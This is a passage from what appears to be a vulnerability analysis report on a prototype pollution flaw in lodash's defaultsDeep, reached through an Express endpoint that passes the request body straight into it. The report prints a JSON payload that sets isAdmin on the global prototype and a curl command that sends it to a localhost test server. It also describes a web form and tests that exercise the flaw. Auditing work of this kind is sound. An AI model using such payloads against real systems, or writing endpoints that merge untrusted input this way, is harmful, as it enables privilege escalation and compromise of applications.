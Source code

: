 #### 2. **server.js** (Line 20)
```javascript
const result = _.defaultsDeep(defaults, req.body);
```
- **Context:** Express API endpoint `/api/defaults-deep`
- **Risk:** **CRITICAL** - User-controlled input passed to vulnerable function
- **Attack Vector:** HTTP POST requests with malicious payloads
- **Import Source:** `const _ = require('lodash');`

#### 3. **Web Interface** (public/index.html)
- Contains interactive forms that trigger the vulnerable API endpoint
- Provides example payloads for prototype pollution attacks
- Enables real-time testing of the vulnerability

#### 4. **Test Suite** (tests/vulnerability.spec.js)
- Automated tests that exercise the vulnerable function
- Confirms exploitability through Playwright tests

### Import Analysis
✅ **CONFIRMED:** All usage references the vulnerable lodash dependency:
- Import statement: `const _ = require('lodash');`
- Namespace: `_` (lodash)
- Function: `defaultsDeep`
- **No false positives** - all references are to the vulnerable lodash function

## Exploit Scenarios

### 1. API Endpoint Exploitation
The `/api/defaults-deep` endpoint accepts user input and passes it directly to the vulnerable function:

**Attack Payload:**
```json
{
  "constructor": {
    "prototype": {
      "isAdmin": true
    }
  }
}
```

**Attack Vector:**
```bash
curl -X POST http://localhost:3000/api/defaults-deep \
  -H "Content-Type: application/json" \
  -d '{"constructor": {"prototype": {"isAdmin": true}}}'
```

**Impact:** Global prototype pollution affecting all JavaScript objects

### 2. Web Interface Exploitation
The web application provides a user-friendly interface for exploiting the vulnerability, making it easily accessible to attackers.
